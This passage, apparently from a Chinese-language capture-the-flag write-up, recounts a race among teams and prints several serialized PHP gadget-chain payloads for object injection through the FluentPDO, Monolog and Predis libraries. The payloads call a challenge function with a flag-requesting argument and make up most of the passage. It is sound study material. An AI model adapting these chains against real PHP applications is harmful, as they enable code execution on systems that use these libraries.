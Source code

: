 ```python
'O:30:"Envms\\FluentPDO\\Queries\\Select":3:{s:6:"fluent";O:21:"Envms\\FluentPDO\\Query":1:{s:9:"structure";O:25:"Envms\\FluentPDO\\Structure":1:{s:10:"primaryKey";s:10:"p0pp3r_win";}}s:5:"regex";O:21:"Envms\\FluentPDO\\Regex":0:{}s:10:"statements";a:2:{s:8:"GROUP BY";a:1:{i:0;s:2:"a:";}s:4:"FROM";s:18:"./@ --give-me-flag";}}'
```

所以把這個搶回來了, 然後又被搶走了, 因為我 `\x00` 沒全部處理掉. 但我把其他人的搶走 (對方 payload 後面多了 `\n`, 刪掉後就得手), 所以我們還是第一, 這題變成比手速的題目了.

到了下午, 有更多奇怪的手段出現, 像是讓 chain 裡面的字串更短.

```python
b'O:37:"Monolog\\Handler\\FingersCrossedHandler":4:{s:13:"passthruLevel";E:19:"Monolog\\Level:Info";s:7:"handler";r:1;s:6:"buffer";a:1:{i:0;O:17:"Monolog\\LogRecord":2:{s:5:"level";r:2;s:5:"mixed";s:18:"./@ --give-me-flag";}}s:10:"processors";a:3:{i:0;s:15:"get_object_vars";i:1;s:3:"end";i:2;s:10:"p0pp3r_win";}}'
b'O:37:"Monolog\\Handler\\FingersCrossedHandler":4:{s:13:"passthruLevel";E:18:"Monolog\\Level:Info";s:7:"handler";r:1;s:6:"buffer";a:1:{i:0;O:17:"Monolog\\LogRecord":2:{s:5:"level";r:2;s:4:"info";s:18:"./@ --give-me-flag";}}s:10:"processors";a:3:{i:0;s:15:"get_object_vars";i:1;s:3:"end";i:2;s:10:"p0pp3r_win";}}'
b'O:37:"Monolog\\Handler\\FingersCrossedHandler":4:{s:13:"passthruLevel";E:18:"Monolog\\Level:Info";s:7:"handler";r:1;s:6:"buffer";a:1:{i:0;O:17:"Monolog\\LogRecord":2:{s:5:"level";r:2;s:4:"info";s:16:"@ --give-me-flag";}}s:10:"processors";a:3:{i:0;s:15:"get_object_vars";i:1;s:3:"end";i:2;s:10:"p0pp3r_win";}}'
b'O:37:"Monolog\\Handler\\FingersCrossedHandler":4:{s:13:"passthruLevel";E:18:"Monolog\\Level:Info";s:7:"handler";r:1;s:6:"buffer";a:1:{i:0;O:17:"Monolog\\LogRecord":2:{s:5:"level";r:2;s:0:"";s:18:"./@ --give-me-flag";}}s:10:"processors";a:3:{i:0;s:15:"get_object_vars";i:1;s:3:"end";i:2;s:10:"p0pp3r_win";}}'

b'O:34:"Predis\\Connection\\StreamConnection":1:{s:13:"\x00*\x00parameters";O:28:"Predis\\Configuration\\Options":3:{s:10:"\x00*\x00options";a:0:{}s:8:"\x00*\x00input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:53:"\x00Predis\\Cluster\\Distributor\\HashRing\x00nodeHashCallback";s:10:"p0pp3r_win";s:42:"\x00Predis\\Cluster\\Distributor\\HashRing\x00nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:11:"\x00*\x00handlers";a:1:{s:10:"persistent";s:37:"\\Predis\\Configuration\\Option\\Commands";}}}'
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":3:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:1:{s:10:"persistent";s:37:"\\Predis\\Configuration\\Option\\Commands";}}}'
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":3:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:1:{s:10:"persistent";s:29:"\\Predis\\Configuration\\Options";}}}'
b'O:34:"Predis\\Connection\\StreamConnection"::{s:10:"parameters";O:28:"Predis\\Configuration\\Options"::{s:7:"options";a::{}s:5:"input";a::{s:10:"persistent";a::{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing"::{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a::{i:0;a::{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a::{s:10:"persistent";s:37:"\\Predis\\Configuration\\Option\\Commands";}}}'
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":2:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:0:{}}}'
```
